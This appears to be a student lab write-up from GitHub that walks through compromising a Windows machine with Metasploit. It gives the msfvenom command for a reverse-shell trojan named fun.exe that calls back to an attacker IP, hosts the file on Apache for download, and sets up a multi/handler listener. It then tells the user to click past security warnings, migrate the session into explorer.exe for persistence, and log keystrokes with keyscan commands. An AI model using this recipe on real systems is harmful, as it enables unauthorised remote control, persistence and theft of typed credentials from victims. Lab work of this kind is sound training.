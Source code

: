 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-21 113044](https://github.com/user-attachments/assets/e02cfc6a-33f1-4400-8d3b-10b64e7cd603)






Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-21 113256](https://github.com/user-attachments/assets/3bc559f3-9043-48ff-bb0b-49acf33d2c49)






copy the fun.exe into the apache /var/www/html folder
![Screenshot 2025-04-21 113348](https://github.com/user-attachments/assets/937760d8-65df-40af-b3d2-7ea111ca6850)




Start apache server
sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/b14cb52b-9222-459e-8a3f-5c0d2fcbcd50)





Check the status of apache2
![Screenshot 2025-04-21 114655](https://github.com/user-attachments/assets/78bbc1e4-2b18-41c5-badc-b9a295758c33)






Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/user-attachments/assets/e0a26cdf-e7ac-43e7-b2c7-91f748d4b936)







On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![Screenshot 2025-04-21 115144](https://github.com/user-attachments/assets/0c36c692-400a-4266-ac31-32457d0d05e1)





Bypass any warning boxes, double-click the file, and allow it to run.


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Screenshot 2025-04-07 115242](https://github.com/user-attachments/assets/13ef9689-8a76-4d7c-bb44-0e4ee9807099)




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![{F7D2ED4C-13F1-4F4C-B951-BEB85E88527E}](https://github.com/user-attachments/assets/337f3a58-b9d7-413a-9619-eaa764b32dd9)



keyscan_dump	Shows the keystrokes captured so far

![{970C702A-B8E4-4F86-8022-F68564FCAD87}](https://github.com/user-attachments/assets/42a6d320-d01e-4694-addb-c39220915f08)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
